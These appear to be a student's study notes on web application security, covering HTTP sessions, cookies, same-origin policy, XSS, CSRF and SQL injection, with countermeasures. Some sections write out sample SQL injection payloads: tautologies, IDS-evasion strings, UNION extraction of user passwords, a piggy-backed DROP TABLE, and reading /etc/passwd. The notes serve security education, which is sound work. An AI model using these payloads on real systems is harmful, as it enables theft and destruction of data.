  
- Case 2: GET + POST
  

### Dynamic COntents
created by scripting language, which can be:
- **client side**: ajax, javascript, activex, VBscript, ...
- **Server side**: PHP, ASP.NET, Java, Perl, Ruby, Go, Python, server-side Javascript, ...

### HTTP Authentication
rarely used nowadays:
  1. browser starts a request without sending any client-side credential
  2. the server replies with a status message `401 unauthorized`, with a specific WWW-Authenticate header
  3. The browser get the client's credentials and include them in the Authorization header in the correct format
2 main mechanisms to send the credential to the server:
  + basic: the password is base64-encoded and sent to the server
  + digest: the credentials are hashed and sent to the server (along with a nonce)

### Monitoring and Manipulating HTTP
- payload is encapsulated in TCP Packets (default port 80) in cleartext communication and it's easy to monitor and manipulate
  - monitor with sniffing tools
  - manipulate with traditional browsers and extensions, proxy, netcat and curls
  - for HTTPS proxy and extensions are needed

## HTTP Security
### HTTP sessions
avoid log-ins for every requested page, store user preferences and keep tarck of past actions of the user.

Implemented by web applications themselves; session information are transmitted between the client and the server.

The session information can be transmitted in these ways:
1. payload HTTP
    > \<INPUT TYPE="hidden" NAME="sessionid" VALUE="7456">
2. URL
    > http://www.example.com/page.php?sessionid=1234
3. header HTTP (cookies)
    > GET /page.php HTTP/1.1   
    > Host: www.example.com  
    > ...  
    > Cookie: sessionid=7456  
    > ...

### Cookies


**Session cookie**:
   - most used technique
   - session data stored on the server
   - the server sends a session id to the client through a cookie
   - for each request, the client sends back the id to the server (e.g., Cookie: PHPSESSID=da1dd139f08c50b4b1825f3b5da2b6fe)
   - the server uses this id to retrieve information

**security of session cookies**:
- risk of bypassing authentication schemas!
- should be considered valid for a small amount of time
- Attacks:
  - hijacking
  - prediction
  - brute force
  - session fixation
  - stealing (XSS)


## Content Isolation

Most of the browser’s security mechanisms rely on the possibility of isolating documents (and execution contexts) depending on the resource’s origin: “The pages from different sources should not be allowed to interfere with each other”.

Content coming from website A can only read and modify content coming from A, but cannot access content coming from website B. This means that a malicious website cannot run scripts that access data and functionalities of other websites visited by the user

### SOP - SAME ORIGIN POLICY

The identification of all the points where to enforce security checks is non straightforward:
- A website CANNOT read or modify cookies or other DOM elements of other websites
- Actions such as “modify a page/app content of another window” should always require a security check
- A website can request a resource from another website, but CANNOT process the received data
- Actions such as “follow a link” should always be allowed

SOP was introduced to implement this. The prerequisites are that any 2 scripts executed in 2 given execution contexts can access their DOMs iff the **protocol**, **domain name** and **port** of their host documents are the same


## ATTACKS ON SESSION COOKIES

### Session Hijacking


### Session Prediction
Early php implementation of sessions were susceptible to this attack. Informations to obtain:
  - IP address: 32 bits
  - Epoch: 32 bits
  - Microseconds: 20 bits
  - Random lcg_value (PRNG): 64 bits
  - TOTAL: 160 bits -> reduced to 40 or 20 if precomputed
    - 20 bits it's not that much to bruteforce

### Session Fixation




### IDOR - Insecure Direct Object Reference

Can happen when application provides direct access to objects based on user-supplied input

The user can directly accesso to information not intended to be accessible

Bypass authorization check leveraging session cookies to access resources in the system directly

Examples:
  - parameter value used to perform system operation
  - parameter value used to retrieve system object
  - session id exposed in URL

## CLIENT SIDE ATTACKS
Client-side vs Server-side attacks - exploit the trust 
  - of the browser: cross site scripting, cross site request forgery
  - of the server: command injection, file inclusion, thread concurrency, SQL injection

--- 
About Client Side Attacks:
  - exploit the trust
    - That a user has of a web site (XSS)
    - that a web site has toward a user (CSRF)
  - steps:
    1. the attacker can inject either HTML or JAVASCRIPT
    2. the victim visits the vulnerable web page
    3. The browser interprets the attacker-injected code
  - goals:
    - stealing of cookie associated to the vulnerable domain
    - login form manipulation
    - execution of additional GET/POST/PUT/...
    - anything else you can do with HTML+JS

## XSS

An attack that targets users' applications to obtain unauthorized access to information stored on the client or unauthorized actions.

Tha cause to these kind of attacks is the Lack of Input Sanitization!!

in a nutshel:
- the original web page is modified and HTML/JS code is injected
- The client's browser executes any code and renders any HTML present on the vulnerable page

3 types of XSS:
1. **reflected XSS**: the injection happens in a parameter used by the page to dinamically display information to the user
2. **stored XSS**: the injection is stored in a page of a web application (tipically the DB) and then displayed to users accessing such a page
3. **DOM-based XSS**: the injection happens in a parameter used by a script running within the page itself

Some possible effects are:
 - capture information of the victim (like session)
   - the attacker can then impersonate the victim
 - Display additional/misleading information to convince that something is happening
 - inject additional form fields (to also exploit autofill feature)
 - make victim do something instead of you (sql injections using other accounts)
 - ...

### Reflected XSS
in a nutshell:
1. the attacker exploits XSS vulnerability
2. a victim visits the vulnerable page from the compromised URL
3. the exploit is reflected off to the victim


 
### Stored XSS

1. the attacker sends to the server the code to inject. THe server stores the injected code persistently (in a DB)
2. the client visits the vulnerable page and the server returns the resource along with the injected code

All the users that will visit the vulnerable resource will be victims to the attack.

The injected code is not visible in a URL and so it's really more dangerous than reflected XSS



## REQUEST FORGERY

also known as `one-click attack, session riding, hostile linking`

Goal: have the victim to execute a number of actions, using victim's credentials/session. There is no stealing of data and this has to be done without the direct accesso to the cookies.

Can be On Site (OSRF) or Cross Site (CSRF)

## Cross Site Request Forgery - CSRF
Browser requests automatically include any credentials associated with the site: user's session cookie, IP address, credentials...

The attacker makes an authenticated user to submit a malicious unintentional request - This can happen from a different source (hostile website)

If the user is currently authenticated, the site will have no way to distinguish between a legitimate and a forged request sent by the victim



### EXAMPLE
1. the victim visits http://www.bank.com and performs authentication
2. The victim opens another browser tab or window and visits a malicious site
3. The site contains something that makes the browser ask something, like:
> \
>
4. the request contains the right session cookie (the user is logged) 
5. the bank site satisfies the request

### FORM EXAMPLE


### JS EXAMPLE


## COUNTERMEASURES FOR CSRF
- use one-time and secret CSRF tokens - can't be known by attackers
  - every XSS Vuln cancels every CSRF countermeasure

## SQL (structured query language) fundamentals

- What Can SQL do?
  - Execute queries against a database 
  - Insert records in a database 
  - Update records in a database 
  - Delete records from a database 
  - Create new databases
  - Create new tables in a database

RDBMS - Relational DataBase Management Systems:
  - is the basis for SQL, and for most of modern database systems, such as SQL server, Oracle, MySQL, SQLite, ...
  - follows the relational model

### Some SQL Commands
- SELECT - extracts data from a database (query) 
- UPDATE - updates data in a database
- DELETE - deletes data from a database
- INSERT INTO - inserts new data into a database 
- CREATE DATABASE - creates a new database 
- ALTER DATABASE - modifies a database CREATE
- TABLE - creates a new table
- ALTER TABLE - modifies a table 
- DROP TABLE - deletes a table
- UNION - combines the results of different queries

## SQL Injections
Many web apps require the ability to store structured data and use a database. 

We have a SQLi when it is possible to modify the  syntax or the logic of a query by altering the application input

SQLi are caused by:
  - missing input validation
  - application-generated queries that contains user input

### SQLi Sinks
Places where to inject our SQL code, which can be:
- User input:
  - GET/POST parameters
  - many client-side technologies that communicate with the server
- HTTP Headers
  - Every HTTP header must be threated as dangerous: User-Agent, Referer, ...
- Cookies: they are just headers and they come from client
- The Database itself: SECOND ORDER INJECTIONS
  - if the input of a query is stored in a database, but that data are taken from user input before hand -> we can do injection inserting malicious data in the DB



### Techniques

#### Terminating the query
---

Frequently, the problem comes from what follows the integrated user parameter. This sql segment is part of the query and the malicious input must be crafted to handle it without generating syntax error.

Usually the parameters include comment symbols, like `#, -, --, /\*...\*/`

---
<br>

#### Tautology
---

inserting an `always true` statement

> ' OR 1=1 --  
> ' OR user LIKE '%' --
> ' OR 1 --

For IDS evasion:

> ' OR 5>4 OR password='mypass  
> ' OR 'vulnerability'>'server' OR password='mypass  

---
<br>

#### UNION Query
---
Unifying a new query to the server one. It has to have the same number and types of columns returned in order to work.

> 1 UNION SELECT 1, user,1, pass FROM users
>

---
<br>

#### Second order injections - EXAMPLE
---
To perform the attack a user with a malicious name is registered:

> $user = "admin'--";
>

`$user` is correctly inserted in the DB.

later on the attacker asks to change the password of its malicious user. The web app fetches info about the username from the DB and perform a query to change password:

> UPDATE users SET pass=’”.\$_POST[’newPass’].”’ WHERE user=’”.$row[’user’];”’
>

if the data is not properly sanitixed, the result will be: 

> UPDATE users SET pass=’password’ WHERE user=’admin’`#’”;`

and the password of the admin account will be changed

---
<br>

#### Piggy Backing
---
to execute an arbitrary number of distinct queries after the original one.

Example:

passing from this
> SELECT id FROM users WHERE user=’”.\$user.”’
AND pass=’”.\$pass.”’


to this
> SELECT id FROM users WHERE user=’’; DROP TABLE users `–- ” ’ AND pass=”`
>

Dropping the entire Table...

---

<br>

#### Information Recovery
---
use the above techniques to recover informations about tables and columns through the INFORMATION\_SCHEMA.

Information schemas are metadata about the objects within the DB, and can be used to gather informations about any table from the DB.

Some Example:

> INFORMATION_SCHEMA.TABLES:
>> TABLE_SCHEMA - DB to which the table belongs  
>> TABLE_NAME: name of a table  
>> TABLE_ROWS: number of rows in the table    
>> ...  
>
> INFORMATION_SCHEMA.COLUMNS:
>> TABLE_NAME: name of the table containing this column  
>> COLUMN_NAME: Name of the column  
>> COLUMN_TYPE: Type of the columns  
>> TABLE_NAME: NAme of the table    
>> ...

Attack Example:


---
<br>

#### BLIND SQLi
---
When systems do not allow you to see output in the form of error messages or extracted database fields whilst conducting SQL injections


To exploit this we can use:
- BENCHMARK or SLEEP: obtain a delay if the query is right 
- IF: obtain a different output if the query is correct or wrong
- SUBSTRING function
  

---
<br>

#### File Operations
---
we can use commands to manage files if the permissions are not correctly set:
- SELECT `loadfile('/etc/passwd')`
- SELECT `'frase_da_scrivere' into outfile '/tmp/file'`

---

### SQLi Countermeasures
- Programmers must take care of input sanitization and avoid using "automagic methods"
- Avoid manually crafted regex
- Best practice: use mysql_real_escape_string() and use of Prepared statements
- If a number is expected, check that the input really is a number 
- Parametrized query (if the language supports it)
  - `cursor.execute("INSERT INTO table VALUES ( %s, %s, %s)", var1 , var2 , var3 )`
